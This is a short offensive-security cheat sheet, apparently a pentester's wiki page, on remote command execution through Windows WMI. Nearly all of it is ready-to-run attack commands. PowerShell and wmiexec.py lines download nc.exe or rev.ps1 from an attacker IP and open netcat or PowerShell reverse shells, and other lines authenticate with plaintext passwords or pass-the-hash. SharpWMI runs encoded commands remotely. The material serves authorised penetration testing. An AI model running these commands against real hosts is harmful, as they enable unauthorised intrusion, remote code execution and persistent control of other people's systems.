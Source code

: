 # WMI

* [https://www.ethicalhacker.net/features/root/wmi-101-for-pentesters/](https://www.ethicalhacker.net/features/root/wmi-101-for-pentesters/)




## PowerShell

Basic command to check if we have privileges to execute WMI:

```
PS > Get-WmiObject -Credential $cred -ComputerName PC01 -Namespace "root" -class "__Namesapce" | Select Name
```

Execute commands:

```
PS > Invoke-WmiMethod -Credential $cred -ComputerName PC01 win32_process -Name Create -ArgumentList ("powershell (New-Object Net.WebClient).DownloadFile('http://10.10.13.37/nc.exe', 'C:\Users\bob\music\nc.exe')")
PS > Invoke-WmiMethod -Credential $cred -ComputerName PC01 win32_process -Name Create -ArgumentList ("C:\Users\bob\music\nc.exe 10.10.13.37 1337 -e powershell")
```




## wmiexec.py

```
$ wmiexec.py -codec cp866 snovvcrash:'Passw0rd!'@127.0.0.1
$ wmiexec.py -hashes :fc525c9683e8fe067095ba2ddc971889 snovvcrash@127.0.0.1
```

Get a PowerShell reverse-shell:

```
$ sudo python3 -m http.server 80
$ sudo rlwrap nc -lvnp 443
$ wmiexec.py -silentcommand -nooutput snovvcrash:'Passw0rd!'@192.168.1.11 'powershell iEx (iWr "http://10.10.13.37/rev.ps1")'
```




## SharpWMI

- [https://github.com/GhostPack/SharpWMI](https://github.com/GhostPack/SharpWMI)

```
PS > .\SharpWMI.exe action=exec [username=MEGACORP\snovvcrash] [passw0rd=Passw0rd!] computername=PC01 command="powershell -enc <BASE64_CMD>"
```
